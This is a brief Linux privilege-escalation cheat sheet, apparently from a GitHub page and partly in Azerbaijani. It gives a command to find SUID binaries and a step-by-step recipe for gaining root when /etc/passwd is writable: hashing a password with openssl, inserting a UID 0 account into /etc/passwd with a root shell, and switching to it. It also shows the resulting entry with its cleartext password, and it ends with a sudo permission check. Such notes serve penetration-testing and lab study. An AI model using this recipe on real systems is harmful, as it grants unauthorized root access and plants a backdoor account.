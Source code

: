 ## SHOWING SUID
    find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
Yaratma qaydası

    user7@polobox:/$ openssl passwd -1
    Password:
    Verifying - Password:
    $1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
    user7@polobox:/$ ^C
    user7@polobox:/$ nano /etc/passwd
    user7@polobox:/$ su dilruba

  Nəticə

    dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
    passwd----dil1123

Sudo icazələrini yoxlamaq
   
    sudo -l
